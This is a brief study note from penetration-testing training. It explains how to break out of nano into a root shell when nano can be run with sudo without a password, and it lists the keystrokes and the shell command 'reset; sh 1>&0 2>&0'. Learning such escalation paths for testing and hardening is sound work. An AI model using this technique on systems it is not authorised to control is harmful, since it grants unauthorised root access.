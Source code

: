# Exploiting Nano

If `nano` is allowed to be run via `sudo` without a password, you can use the following to break out into a root shell:

* `CTRL+R` (read file)
* `CTRL+X` (execute file)
* `reset; sh 1>&0 2>&0`

## References

* [2022-04-20 - ITPro.TV: CompTIA Security+ (SY0-601) & TryHackMe: Jr. Penetration Tester](../log/2022-04-20-itprotv-comptia-security-plus-and-tryhackme-jr-penetration-tester.md)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> April 21, 2022
